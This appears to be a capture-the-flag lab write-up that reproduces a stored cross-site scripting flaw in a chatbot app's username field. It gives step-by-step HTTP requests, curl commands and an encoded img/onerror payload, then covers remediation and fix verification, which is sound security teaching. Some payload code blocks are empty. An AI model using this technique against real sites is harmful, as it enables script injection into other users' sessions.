> **Quick note:** I reproduced this authorised WebVerse lab on 10 September 2026 with Caido and Chromium. The temporary hostname remains visible because it keeps the screenshots easy to follow. Passwords, session cookies, and the challenge flag are redacted. A new lab instance will have a different hostname, so replace `<LAB_HOST>` and `<INSTANCE_ID>` in the examples before using them.

## Executive Summary

Smoothie lets a new user choose a `username` during registration. The application stores that value and later places it in two locations on `/chat.php`.

The page header treated the username as text. The first bot message treated the same value as HTML. An inert `<b>` marker made that difference easy to see before any JavaScript was introduced.

The final test used a small `img/onerror` payload that only set a local DOM attribute. Registration alone left `/__status.php` at `solved:false`. After Chromium opened `/chat.php`, the console returned the expected marker and the same status endpoint changed to `solved:true`.

> **Confirmed finding:** Smoothie stores a user-controlled username and inserts it as raw HTML inside the first bot message. This allows stored XSS when the authenticated chat page is rendered.

## 1. Report Profile

| Field | Verified value |
| --- | --- |
| Platform | WebVerse |
| Lab | Smoothie |
| Difficulty | Medium |
| Reproduction date | 10 September 2026 |
| Account requirement | Ordinary self-created lab account |
| Storage point | `POST /register.php`, parameter `username` |
| Render point | First server-generated bot message on `GET /chat.php` |
| Safe comparison | The same username is HTML-escaped in the page header |
| Runtime proof | `document.body.dataset.mmp` returned `6b0a9756` |
| Status check | `GET /__status.php` changed from `solved:false` to `solved:true` |
| Primary weakness | [CWE-79](/cwes/cwe-79/): Improper Neutralization of Input During Web Page Generation |
| Supporting weakness | [CWE-116](/cwes/cwe-116/): Improper Encoding or Escaping of Output |
| Evidence | Browser, Caido, Chromium DevTools, and WebVerse solved state |
| Caido reproduction | Passed |
| Terminal reproduction | Not performed for this case |

### Verified Attack Chain

```text
Open a fresh Smoothie instance
  > map the registration and chat routes
Create a normal account
  > username appears in the first bot message
Register an inert HTML username
  > header escapes it
  > first bot message renders it as markup
Create a new account in Caido Replay
  > stored img/onerror DOM-marker payload
Check /__status.php before opening /chat.php
  > solved:false and flag:null
Place the new sm_sid in Chromium
  > block automatic /__status.php polling
Open /chat.php
  > event handler runs in the Smoothie origin
Read document.body.dataset.mmp
  > 6b0a9756
Check /__status.php once more
  > solved:true and WEBVERSE{REDACTED}
WebVerse challenge solved
  > stop
```

## 2. Scope and Evidence Limits

The reproduction stayed inside one fresh Smoothie lab instance. It stopped after the objective was confirmed.

- The normal account, inert HTML account, and XSS account were all controlled test accounts.
- The XSS payload changed only `document.body.dataset.mmp`. It did not read cookies, send data elsewhere, or perform a state-changing application action.
- The status endpoint was checked before and after the browser render with the same XSS-account session.
- Automatic status polling was blocked in Chromium during the runtime check. This kept the console proof separate from the final Caido status request.
- The first status attempt still contained a copied registration body. Its response was recorded, but the request was repeated cleanly before it was used as evidence.
- The proof confirms JavaScript execution in the user's own authenticated session. A second user, staff view, or administrator view was not tested.
- No standalone Terminal reproduction was performed. The `curl` snippets below only show the equivalent HTTP shape for readers who prefer the CLI.
- The visible host is temporary and may already be expired. Readers must use their own current instance.

The root cause matches [MITRE CWE-79](https://cwe.mitre.org/data/definitions/79.html). [MITRE CWE-116](https://cwe.mitre.org/data/definitions/116.html) supports the specific output-encoding mistake seen between the two username locations.

## 3. Evidence-Led Chronological Reproduction

The order matters in this case. Opening the XSS account's chat page too early would execute the stored event handler before the negative status check.

1. Open the fresh application and map the registration route.
2. Create a normal account and confirm where the username appears.
3. Use an inert HTML username to compare the header and bot-message sinks.
4. Create the XSS account through Caido Replay without following the redirect.
5. Check that the new account is still unsolved.
6. Move that account's `sm_sid` into Chromium.
7. Block automatic `/__status.php` polling.
8. Open `/chat.php` and read the local DOM marker in the console.
9. Return to Caido, check `/__status.php` once, and stop after the solved response.

## 4. Caido/Burp Reproduction

### Step 1: Open the Fresh Instance

The first browser load confirmed the application and current temporary host.

```http
GET / HTTP/1.1
Host: <LAB_HOST>
```

Equivalent command:

```bash
curl -i -sS 'https://<LAB_HOST>/'
```



**Figure 1: Fresh application.** The public page exposes the menu, chat, login, and registration links.



**Figure 2: Root request.** The request is tied to the fresh `6b0a9756` instance.



**Figure 3: Root response.** The application returns `200 OK` and the normal Smoothie HTML. The response also uses `Content-Security-Policy-Report-Only`, which reports policy violations but does not block this inline handler.

### Step 2: Map the Registration Form

The **Join** link opened `/register.php` with `username` and `password` fields.

```http
GET /register.php HTTP/1.1
Host: <LAB_HOST>
```

Equivalent command:

```bash
curl -i -sS 'https://<LAB_HOST>/register.php'
```



**Figure 4: Registration form.** The username is a normal account field, not a chat message.



**Figure 5: Registration request.** Existing cookie values are removed, while the method, route, and host remain visible.



**Figure 6: Registration response.** The server returns the expected form with `200 OK`.

### Step 3: Create a Normal Account

The first account used the plain username `Mdk22Lab`. This recorded the normal registration and chat behavior before any HTML was added.

```http
POST /register.php HTTP/1.1
Host: <LAB_HOST>
Content-Type: application/x-www-form-urlencoded

username=Mdk22Lab&password=<LAB_PASSWORD>
```

Equivalent command:

```bash
curl -i -sS -c smoothie-baseline.cookies -X POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'username=Mdk22Lab' \
  --data-urlencode 'password=<LAB_PASSWORD>' \
  'https://<LAB_HOST>/register.php'
```



**Figure 7: Normal account request.** The password and reusable cookie are removed. The username and request body structure stay visible.



**Figure 8: Registration result.** The application accepts the account and redirects to `/chat.php`.



**Figure 9: Browser baseline.** `Mdk22Lab` appears in both the header and the first bot message.

### Step 4: Confirm the First Bot Message in Raw HTML

Caido captured the authenticated page request and both username locations in the response.

```http
GET /chat.php HTTP/1.1
Host: <LAB_HOST>
Cookie: sm_sid=<REDACTED>
```

Equivalent command:

```bash
curl -i -sS -b smoothie-baseline.cookies \
  'https://<LAB_HOST>/chat.php'
```



**Figure 10: Authenticated chat request.** The `sm_sid` value is removed, but the request context remains intact.



**Figure 11: Header baseline.** The normal username is present in the account header.



**Figure 12: First bot message.** The server-generated HTML contains `Hello Mdk22Lab` inside `.bubble.bot`.

### Step 5: Compare Both Username Sinks with Inert HTML

The next account used a harmless `<b>` element. This step checks parser behavior without JavaScript.

Exact value used in the reproduced instance:

```html
<b id=mmp-6b0a9756>CONTROL</b>
```

Reusable form for a new instance:

```html
<b id=mmp-<INSTANCE_ID>>CONTROL</b>
```

URL-encoded value used in the request:

```text
%3Cb+id%3Dmmp-6b0a9756%3ECONTROL%3C%2Fb%3E
```

```http
POST /register.php HTTP/1.1
Host: <LAB_HOST>
Content-Type: application/x-www-form-urlencoded

username=%3Cb+id%3Dmmp-6b0a9756%3ECONTROL%3C%2Fb%3E&password=<LAB_PASSWORD>
```

Equivalent command:

```bash
INSTANCE_ID='<FIRST_8_HOST_CHARACTERS>'

curl -i -sS -c smoothie-control.cookies -X POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode "username=<b id=mmp-${INSTANCE_ID}>CONTROL</b>" \
  --data-urlencode 'password=<LAB_PASSWORD>' \
  'https://<LAB_HOST>/register.php'
```



**Figure 13: Inert marker.** The username contains markup but no script or event handler.



**Figure 14: Encoded registration request.** The browser form-encodes the `<b>` element before sending it.



**Figure 15: Inert account accepted.** The application redirects to `/chat.php`.



**Figure 16: Inert account render request.** The new session is removed from the image.

The response handled the same stored value in two different ways:

```html
<!-- Header: rendered as text -->
Hi, &lt;b id=mmp-6b0a9756&gt;CONTROL&lt;/b&gt;

<!-- First bot message: rendered as markup -->
Hello <b id=mmp-6b0a9756>CONTROL</b>, welcome to Smooth Smoothies...
```



**Figure 17: Safe comparison.** The header escapes the angle brackets, so the tag is displayed as text.



**Figure 18: Raw HTML sink.** The first bot message contains a real `<b>` element.



**Figure 19: Browser comparison.** The header prints the tag, while the bot message renders **CONTROL** in bold. This isolates the vulnerable output location before the XSS test.

### Step 6: Store the DOM-Marker Payload Without Opening Chat

The XSS account was created from Caido Replay. The redirect was not followed because `/chat.php` would render the username immediately.

Exact payload used:

```html

```

Reusable form:

```html
'">
```

This payload makes the image load fail and runs the `onerror` handler. The only effect is a local DOM attribute:

```javascript
document.body.dataset.mmp = '6b0a9756'
```

URL-encoded value used in Caido:

```text
%3Cimg+src%3Dx+onerror%3D%22document.body.dataset.mmp%3D%276b0a9756%27%22%3E
```

```http
POST /register.php HTTP/1.1
Host: <LAB_HOST>
Content-Type: application/x-www-form-urlencoded

username=%3Cimg+src%3Dx+onerror%3D%22document.body.dataset.mmp%3D%276b0a9756%27%22%3E&password=<LAB_PASSWORD>
```

Equivalent command:

```bash
INSTANCE_ID='<FIRST_8_HOST_CHARACTERS>'

curl -i -sS -c smoothie-xss.cookies -X POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode "username=" \
  --data-urlencode 'password=<LAB_PASSWORD>' \
  'https://<LAB_HOST>/register.php'
```



**Figure 20: XSS account request.** The full username payload remains visible. Only the password and reusable cookie are removed.



**Figure 21: XSS account created.** The server returns `302`, points to `/chat.php`, and issues a new `sm_sid`. The cookie value is redacted, but its attributes remain visible.

Do not follow the redirect yet. The next step needs the unsolved state before the username is rendered.

### Step 7: Record the Pre-Browser Negative Control

The first attempt cloned the registration request and changed its method and path. It returned the expected JSON, but the old form body and its `Content-Length` and `Content-Type` headers were still attached.



**Figure 22: Rejected capture.** The endpoint returned a useful result, but the request was not clean enough to keep as the final control.



**Figure 23: First unsolved response.** The result is `solved:false`, but the request-shape problem is fixed before this claim is locked.

The body and both body-related headers were removed. The clean request used the new `sm_sid` from Figure 21:

```http
GET /__status.php HTTP/1.1
Host: <LAB_HOST>
Cookie: sm_sid=<XSS_ACCOUNT_SESSION>
Accept: application/json
Connection: close
```

Equivalent command:

```bash
curl -i -sS -b smoothie-xss.cookies \
  -H 'Accept: application/json' \
  'https://<LAB_HOST>/__status.php'
```



**Figure 24: Clean pre-browser request.** No copied registration body remains.



**Figure 25: Negative control.** The XSS account exists, but the page has not rendered the payload. The server returns `solved:false` and `flag:null`.

### Step 8: Run the Payload in Chromium

The browser needed the same session that Caido received in Figure 21. Before opening `/chat.php`, Chromium was prepared in two parts.

First, block the page's automatic status polling. The command palette search did not expose the older **Network request blocking** command in this Chromium version.



**Figure 26: Version difference.** The old command name is not available, so the setting is opened from the DevTools menu.

Open:

```text
DevTools menu
  > More tools
  > Request conditions
```



**Figure 27: Current DevTools location.** `Request conditions` is the available panel in this browser.

The wildcard entered during the first attempt was rejected by the URL Pattern parser:

```text
*__status.php*
```



**Figure 28: Invalid pattern.** This exact Chromium build requires a valid URL Pattern.

Use the full current-instance URL instead:

```text
https://<LAB_HOST>/__status.php
```

Set the action to **Block** and keep **Enable blocking and throttling** selected.



**Figure 29: Status polling blocked.** The full URL is accepted and the rule is active.

Next, open:

```text
DevTools
  > Application
  > Storage
  > Cookies
  > https://<LAB_HOST>
```

Replace only the `sm_sid` value with the session from Figure 21. The lower **Cookie Value** field is only the detail view of the selected row, not a second input.



**Figure 30: Browser session prepared.** The `sm_sid` and Cloudflare cookie values are removed. The domain, path, `HttpOnly`, `SameSite`, and blocking rule remain visible.

Now open:

```text
https://<LAB_HOST>/chat.php
```

In the DevTools console, run:

```javascript
document.body.dataset.mmp
```

Observed result:

```text
'6b0a9756'
```



**Figure 31: Runtime proof.** The page's DOM contains the exact value assigned by the stored `onerror` handler.



**Figure 32: Vulnerable page render.** The broken image appears inside the first bot message, while the header displays the payload text. Together with Figure 31, this confirms browser-side JavaScript execution in the Smoothie origin.

### Step 9: Check the Final Status Once

Return to the clean Caido Replay request from Step 7. Keep the same XSS-account session and send it once.

```http
GET /__status.php HTTP/1.1
Host: <LAB_HOST>
Cookie: sm_sid=<XSS_ACCOUNT_SESSION>
Accept: application/json
Connection: close
```

Equivalent command:

```bash
curl -i -sS -b smoothie-xss.cookies \
  -H 'Accept: application/json' \
  'https://<LAB_HOST>/__status.php'
```



**Figure 33: Final status request.** This is the same route and session used for the clean negative control.

```json
{
  "solved": true,
  "flag": "WEBVERSE{REDACTED}"
}
```



**Figure 34: Objective response.** The server now returns `solved:true`. The literal flag is removed from the public image.



**Figure 35: Platform confirmation.** WebVerse records Smoothie as solved and the submitted flag as accepted.

## 5. Controls and Results

| Check | Observed result | Why it matters |
| --- | --- | --- |
| Fresh root request | `GET /` returned `200` | Ties the work to the current Smoothie instance. |
| Normal username | `Mdk22Lab` appeared in both locations | Records the expected account and chat behavior. |
| Inert `<b>` marker | Escaped in header, parsed in bot message | Finds the exact unsafe output location without JavaScript. |
| XSS registration | `302` to `/chat.php` and new `sm_sid` | Confirms the payload was stored without following the render path. |
| First status attempt | `false/null`, but stale request body remained | Result kept as troubleshooting context, not final proof. |
| Clean pre-browser status | `solved:false`, `flag:null` | Shows that storage alone did not solve the lab. |
| Blocked status polling | Exact `/__status.php` rule active | Keeps automatic polling out of the runtime check. |
| DOM marker | `document.body.dataset.mmp` returned `6b0a9756` | Confirms the event handler executed in Chromium. |
| Post-browser status | `solved:true` and redacted flag | Connects browser execution to the authoritative lab result. |
| Platform screen | Challenge solved, flag accepted | Confirms the completed lab outside the local DOM check. |

## 6. Root Cause and Classification

The stored username crosses the same page boundary twice, but only one location encodes it correctly.

```html
<!-- Safe output -->
Hi, &lt;b id=mmp-6b0a9756&gt;CONTROL&lt;/b&gt;

<!-- Unsafe output -->
<div class="bubble bot">
  Hello <b id=mmp-6b0a9756>CONTROL</b>, welcome to Smooth Smoothies...
</div>
```

The header proves that the application can display the username as text. The first bot message inserts the stored value into HTML without neutralising the tag boundary. The browser therefore creates an `img` element and runs its `onerror` handler.

This is [CWE-79](/cwes/cwe-79/) and fits the stored XSS pattern. [CWE-116](/cwes/cwe-116/) describes the supporting output-encoding failure.

`Content-Security-Policy-Report-Only` does not stop execution. It can report the event, but the browser does not enforce the listed policy. `HttpOnly` also does not repair the sink. It prevents direct JavaScript access to the cookie value, but JavaScript still runs in the page origin.

## 7. Confirmed Impact

The reproduced impact is limited and clear:

- a registered user can store HTML in the `username` field;
- the first bot message turns that value into DOM markup;
- an inline event handler executes JavaScript in the Smoothie origin;
- the harmless proof changes a local DOM attribute;
- the lab state changes from unsolved to solved after the browser render.

The work does not prove that another user, moderator, or administrator views the stored username. It also does not prove access to another account or data. Those would need a separate viewer path and a separate controlled test.

## 8. Remediation

### Encode the Username at Every HTML Output

The username should be encoded for the exact output context every time it is rendered. A safe header does not make the bot message safe.

For a PHP HTML template, a suitable pattern is:

```php
<?= htmlspecialchars($username, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8') ?>
```

Avoid raw-output helpers for identity fields such as username, display name, email, or profile text.

### Build the Greeting as Text

If the greeting is created in JavaScript, keep the user-controlled part in a text node:

```javascript
const bubble = document.createElement('div');
bubble.className = 'bubble bot';
bubble.textContent = `Hello ${username}, welcome to Smooth Smoothies, what can I help you with?`;
```

### Enforce CSP as a Backup Control

Move from report-only to an enforced Content Security Policy after compatibility testing. A nonce-based policy can block inline event handlers, but it should be a backup control. Correct output encoding still fixes the actual bug.

### Keep Session Cookie Protection

Keep `HttpOnly` and `SameSite`, and add or verify `Secure` for HTTPS delivery. Cookie flags limit some follow-up techniques, but they do not prevent same-origin JavaScript execution.

## 9. How to Verify the Fix

Repeat the same order after the code change:

1. Register a normal account and confirm the greeting still works.
2. Register the inert `<b>` username.
3. Confirm both the header and first bot message display the literal tag as text.
4. Register the `img/onerror` username through Caido without following the redirect.
5. Confirm `/__status.php` still returns `solved:false`.
6. Open `/chat.php` with that account in Chromium.
7. Confirm `document.body.dataset.mmp` is `undefined` and no broken attacker-created image appears.
8. Confirm `/__status.php` remains unsolved.
9. Run the same checks for every other page that displays the username.

Expected safe HTML:

```html
Hello &lt;img src=x onerror=&quot;document.body.dataset.mmp='test'&quot;&gt;,
welcome to Smooth Smoothies...
```

## 10. Conclusion

The normal account showed that Smoothie places the stored username in the first bot message. The inert HTML marker then exposed the real problem: the header escaped the value, but the bot message parsed it as markup.

Caido Replay stored a harmless `img/onerror` username without opening the chat page. The clean status request was still unsolved. Chromium then rendered `/chat.php`, and the console returned the exact DOM marker from the event handler. One final Caido request changed the status to solved, and WebVerse accepted the flag.

That sequence confirms stored XSS in the first bot greeting and keeps the claim limited to what was actually reproduced.

```text
LAB FLAG: WEBVERSE{REDACTED}
STATUS: SOLVED / VERIFIED
```
